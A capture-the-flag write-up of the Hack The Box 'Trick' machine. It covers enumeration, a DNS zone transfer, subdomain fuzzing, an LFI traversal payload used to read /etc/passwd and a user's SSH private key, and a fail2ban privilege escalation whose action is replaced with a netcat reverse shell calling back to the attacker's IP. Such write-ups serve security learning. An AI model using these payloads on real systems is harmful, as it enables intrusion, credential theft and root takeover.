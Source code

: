 ```yaml
---
layout: single
title: Trick HTB writeup
excerpt: "Easy linux machine in which we enumerate dns, fuzz subdomains, exploit and LFI, and exploit fail2ban"
date: 2022-07-15
classes: wide
header:
  teaser: /assets/images/trick/icon-trick.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - writeup
tags:
  - hackthebox
  - mpdf
  - capabilities
  - gdb
  - bash scripting
---
```


![](/assets/images/trick/trick.png)

# TRICK

### User flag

First the usual nmap scan which found 4 open ports

```shell
[dasor@archlinux]$ nmap -p- -sS --min-rate 5000 -vvv -n -Pn -oN allports 10.10.11.166
 PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
25/tcp open  smtp    syn-ack ttl 63
53/tcp open  domain  syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
...
[dasor@archlinux]$ nmap -sCV -p22,80,53,25 -oN targeted 10.10.11.143
PORT   STATE  SERVICE VERSION
22/tcp open   ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
25/tcp closed smtp
53/tcp closed domain
80/tcp open   http    Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: HTTP Server Test Page powered by CentOS
```

At first I inspected the webpage but did not found anything interesting and continued enumerating smtp. (I also added the machine as trick.htb in my etc/hosts as usual)

```shell
[dasor@archlinux]$ nmap -p25 --script smtp-commands -oN smtp 10.10.11.166
PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8,
CHUNKING
...
[dasor@archlinux]$ nmap -p25 --script smtp-enum-users --script-args smtp-enum-users.methods={VRFY} -oN smtpusers trick.htb
PORT   STATE SERVICE
25/tcp open  smtp
| smtp-enum-users:
|_  Couldn't find any accounts
...
[dasor@archlinux]$ nmap -p25 --script smtp-open-relay 10.10.11.166
PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-open-relay: Server doesn't seem to be an open relay, all tests failed
```

Another rabbit hole I guess. Next I started enumerating port 53 dns as my last resource. I used dig and at first I did not find anything important until I tried with zone transfer

```shell
[dasor@archlinux]$ dig axfr @10.10.11.166 trick.htb

; <<>> DiG 9.18.4 <<>> axfr @10.10.11.166 trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800

```

Interesting, two subdomains to add to the etc/host. The root one is useless since it is the same page. On the other hand the preprod-payroll has a login page. I tried a lot of sql injections, LFI and fuzzed the site but nothing came up. At this point I thought to fuzz some more subdirectories in the lines of preprod-xxxx.

```shell
[dasor@archlinux]$ ffuf -w /mnt/home/dasor/wordlist/directory-list-2.3-big.txt:FUZZ -u http://trick.htb/ -H 'Host: preprod-FUZZ.trick.htb' -v -fs 5480

[Status: 200, Size: 9660, Words: 3007, Lines: 179]
| URL | http://trick.htb/
    * FUZZ: marketing

```

after again adding the domain to the /etc/hosts file I found a pretty "interesting" webpage. When you click in any section the url changes to index.php**?page=about.html** or to whatever section you selected. This seemed as a possible LFI, first I tried with the usual ../../../../etc/passwd but it gave me a blank page. Then I decided to fuzz for LFI.

```shell
[dasor@archlinux]$ ffuf -w /mnt/home/dasor/wordlist/LFI-Jhaddix.txt:FUZZ -u http://preprod-marketing.trick.htb/index.php?page=FUZZ -v -fs 0

[Status: 200, Size: 2351, Words: 28, Lines: 42]
| URL | http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd
    * FUZZ: ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd

```

Once I knew this I read the passwd file and found a user called michael so I tried to read his .ssh directory, and it worked! I copied his id_rsa to my machine and got the user flag

### Root Flag

Before continuing I would like to point out this was the easiest root flag ever. Once in the machine I execute the usual sudo -l to see if I had some privilege and got This

```shell
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

fail2ban is an app I have heard a lot about and what it does is just ban your IP if you fail many times trying to login to ssh (as the name points out). I just searched on google fail2ban privilege escalation and found lots of articles. Basically if you can edit the file at /etc/fail2ban/action.d/iptables-multiport.conf you can change the command that gets executed **by root** when he bans someone.

```shell
michael@trick:/etc/fail2ban/action.d$ ls -la
total 288
drwxrwx--- 2 root security  4096 Jul 14 17:36 .
drwxr-xr-x 6 root root      4096 Jul 14 17:36 ..
-rw-r--r-- 1 root root      1420 Jul 14 17:36 iptables-multiport.conf
```

Even thought the file owner is root and we cannot edit it, we can replace the file because the user michael is in the security group (you can check it using the command groups) and has all to privileges in the folder.

```shell
michael@trick:~$ cp /etc/fail2ban/action.d/iptables-multiport.conf .
michael@trick:~$ vim iptables-multiport.conf
... (we change the action ban command to a reverse shell)
actionban =  rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.83 4242 >/tmp/f
...
michael@trick:~$ mv iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf
mv: replace '/etc/fail2ban/action.d/iptables-multiport.conf', overriding mode 0644 (rw-r--r--)? y
michael@trick:~$ sudo /etc/init.d/fail2ban restart
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
```

once that is done we ban ourselves by login incorrectly to ssh a lot of times and we will get root. However you have to be quick since the config file changes to the default one after some time.

```shell
[dasor@archlinux ~]$ nc -lvp 4242
Connection from 10.10.11.166:49380
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
#
```
